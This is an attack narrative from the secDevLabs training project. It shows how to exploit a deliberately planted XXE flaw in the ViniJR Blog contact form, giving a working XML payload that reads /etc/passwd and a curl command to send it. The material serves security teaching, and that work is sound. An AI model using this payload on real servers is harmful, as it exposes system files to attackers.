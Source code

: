 # Attack Narrative - ViniJR Blog (XXE)

The main goal of this documentation is to describe how a malicious user could exploit a XXE vulnerability intentionally intalled on ViniJR Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a4/vinijr-blog) yet, you should check them before reading this narrative. 

----

## 👀

After reviewing the inputs from the app, it is possible to identify that the section "GET IN TOUCH" allows users send messages to the server, as shown in the following picture:

<img src="attack-1.png" align="center"/>

Using [Burp Suite](https://portswigger.net/burp) proxy to intercept this request (POST to contact.php) reveals that the message is being build using an XML: 

<img src="attack-2.png" align="center"/>

By checking the source code of the [file](../app/contact.php), it is possible to see how this XML is loaded on the server side:

<img src="attack-3.png" align="center"/>

## 🔥

As no validation is being used to avoid [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) being sent to the PHP file, an attacker could create the following `evilxml.txt` to perform a XXE: 

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And, as the following picture shows, it is possible to realize that the attack succeeds and sensitive information is retrieved from the server that is hosting the vulnerable app: 

```sh
curl -d @evilxml.xt localhost:10080/contact.php ; echo
```

<img src="attack-4.png" align="center"/>

